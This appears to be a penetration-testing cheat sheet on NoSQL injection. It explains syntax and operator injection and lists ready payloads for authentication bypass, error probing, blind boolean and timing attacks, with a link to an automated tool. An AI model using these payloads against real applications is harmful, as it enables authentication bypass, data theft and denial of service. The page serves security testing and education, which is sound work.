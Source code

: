 # NoSQL Injection

## NoSQL Injection

NoSQL injection is a vulnerability where an attacker is able to interfere with the queries that an application makes to a NoSQL database. NoSQL injection may enable an attacker to:

* Bypass authentication or protection mechanisms.
* Extract or edit data.
* Cause a denial of service.
* Execute code on the server.

NoSQL databases store and retrieve data in a format other than traditional SQL relational tables. They use a wide range of query languages instead of a universal standard like SQL, and have fewer relational constraints.



**There are two different types of NoSQL injection:**

* Syntax injection - This occurs when you can break the NoSQL query syntax, enabling you to inject your own payload. The methodology is similar to that used in [SQL injection](https://portswigger.net/web-security/sql-injection). However the nature of the attack varies significantly, as NoSQL databases use a range of query languages, types of query syntax, and different data structures.
* Operator injection - This occurs when you can use NoSQL query operators to manipulate queries.



### Where & How to Inject Payloads <a href="#where-how-to-inject-payloads" id="where-how-to-inject-payloads"></a>

```
1. site.com/page?query=term || '1'=='1
2. site.com/page?user[$ne]=nobody
```

### Simple Error Based NoSQL Injection Tests <a href="#simple-error-based-nosql-injection-tests" id="simple-error-based-nosql-injection-tests"></a>

```
'"\/$[].>
```

### Blind Boolean Injection <a href="#blind-boolean-injection" id="blind-boolean-injection"></a>

```
{"$ne": -1}
{"$in": []}
{"$and": [ {"id": 5}, {"id": 6} ]}
{"$where":  "return true"}
{"$or": [{},{"foo":"1"}]}
site.com/page?query=term || '1'=='1
site.com/page?user[$ne]=nobody
site.com/page?user=;return true
```

You may need to try appending certain characters to correctly terminate the query:

```
//
%00
'
"
some number of closing brackets or braces, in some combination
```



### Timing Based Injection <a href="#timing-based-injection" id="timing-based-injection"></a>

```
{"$where":  "sleep(100)"}
;sleep(100);
```



## Automated Tool

{% embed url="https://github.com/Charlie-belmer/nosqli" %}

